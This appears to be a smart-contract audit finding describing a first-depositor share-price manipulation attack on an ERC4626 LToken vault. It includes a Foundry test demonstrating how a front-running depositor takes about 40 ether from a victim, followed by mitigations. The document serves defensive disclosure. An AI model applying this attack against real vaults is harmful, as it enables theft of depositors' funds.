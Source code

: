minera
# First user can steal part of everyone else's tokens

https://github.com/sentimentxyz/protocol/blob/main/src/tokens/utils/ERC4626.sol#L48
## [H] First user can steal part of everyone else's tokens
### Problem
A user who deposits to LToken vault first can steal part of everybody's tokens by sending tokens to the system externally.
They can manipulate the price of a share.
This attack is possible because you enable depositing a small amount of tokens.
### Proof of Concept
Here is simple test that shows the flow, it is not the exploit (can make it on hardhat, just a lot of setup required)
```solidity
pragma solidity 0.8.15;

import {TestBase} from "../utils/TestBase.sol";
import "forge-std/console.sol";

contract ProtocolTest is TestBase {
    address public alice = cheats.addr(1);
    address public bob = cheats.addr(2);

    function setUp() public {
        setupContracts();
    }

    function testTakeBobsMoney() public {
        erc20.mint(address(alice), 1000 ether);
        erc20.mint(address(bob), 1000 ether);
        cheats.prank(alice);
        erc20.approve(address(lErc20), type(uint256).max);
        cheats.prank(bob);
        erc20.approve(address(lErc20), type(uint256).max);

        cheats.startPrank(alice);
        lErc20.deposit(1, alice); // 1 share costs 1 wei now
        assertEq(lErc20.previewRedeem(1), 1);
        // alice 's bot monitors mempool

        assertEq(lErc20.previewDeposit(180 ether), 180 ether); //Bob checks that he will get 180 ether shares for his 180 ether
        // when bob deposits funds alice's bot puts transaction with higher priority  
        erc20.transfer(address(lErc20), 100 ether); // 1 share costs 100 ether + 1 wei now
        cheats.stopPrank();

        assertEq(lErc20.previewRedeem(1), (100 ether + 1));
       
        cheats.prank(bob);
        lErc20.deposit(180 ether, bob); // 2 shares cost 200 ether + 2 wei, so Bob gets only one share, because of rounding down

        assertEq(lErc20.previewRedeem(1), 140 ether); // now we have ~280 ether in the vault, 140 ether per share
        
        cheats.prank(alice);
        lErc20.redeem(1, alice, alice);

        uint aliceBalance = erc20.balanceOf(address(alice));
        assertEq(aliceBalance, (1040 ether - 1)); // alice got +~40 ether at the expense of bob
    }
}
```

### Mitigation
- Use Flashbots to avoid mempool.
- Force users to deposit at least some amount in the LToken vault.
That way the amount the attacker will need to ERC20.transfer to the system will be at least X * 1e18 instead of X which is unrealistic.
An alternative is to require only the first depositor to freeze big enough initial amount of liquidity. This approach has been used long enough by various projects, for example in Uniswap V2:
[Uniswap/UniswapV2Pair.sol#L119-L121](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L121)
